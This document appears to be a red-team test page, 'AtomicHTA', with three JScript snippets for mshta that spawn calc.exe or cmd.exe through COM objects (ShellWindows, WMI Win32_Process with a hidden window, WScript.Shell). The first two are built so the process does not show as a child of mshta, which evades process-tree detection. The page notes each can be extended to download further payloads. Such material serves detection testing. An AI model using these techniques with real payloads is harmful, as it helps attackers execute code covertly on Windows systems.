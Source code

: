 # HTA

## AtomicHTA

Three ways to spawn calc using HTA. Each are customizable to download a chain reaction to perform additional behaviors.

## MSHTA - Explorer Spawning CMD

Using COM objects, mshta runs with no child processes. Explorer.exe spawns and executes cmd -> calc.

```
// Type One
// Child of Explorer, cmd.exe
var ShellWindows = "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}";
var SW = GetObject("new:" + ShellWindows).Item();
SW.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", 'C:\\Windows\\System32', null, 0);
```

## MSHTA - Wmiprvse Spawning CMD

Using COM objects, mshta runs with no child processes. Wmiprvse spawns and executes cmd -> calc.

```
// Type Two
// Child of wmiprvse
var strComputer = ".";
var objWMIService = GetObject("winmgmts:\\\\" + strComputer + "\\root\\cimv2");
var objStartup = objWMIService.Get("Win32_ProcessStartup");
var objConfig = objStartup.SpawnInstance_();
objConfig.ShowWindow = 0;
var objProcess = GetObject("winmgmts:\\\\" + strComputer + "\\root\\cimv2:Win32_Process");
var intProcessID;
objProcess.Create("cmd.exe", null, objConfig, intProcessID);
```
## MSHTA spawning CMD

Mshta spawns child process of calc.exe.

```
// Type Three
// Child of mshta.exe
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
```
